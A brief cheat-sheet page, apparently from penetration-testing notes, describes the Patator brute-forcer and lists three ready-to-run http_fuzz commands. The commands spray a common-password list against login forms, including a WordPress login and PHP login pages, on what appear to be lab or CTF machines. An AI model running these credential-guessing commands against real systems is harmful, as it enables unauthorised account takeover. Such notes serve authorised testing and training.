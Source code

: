 Patator is a multi-purpose brute-forcer, with a modular design and a flexible usage.

# Commands

* `patator http_fuzz url=http://192.168.68.106/login method=POST body='{"username":"COMBO00","password":"COMBO01"}' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt  accept_cookie=1 follow=1 max_follow=2 -x ignore:fgrep='Unauthorized' header ='Content-Type: application/json'`
* `patator http_fuzz url=http://loly.lc/wordpress/wp-login.php method=POST body='log=loly&pwd=FILE0&wp-submit=Log+In&redirect_to=&testcookie=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -x ignore:fgrep=Error`
* `patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878`

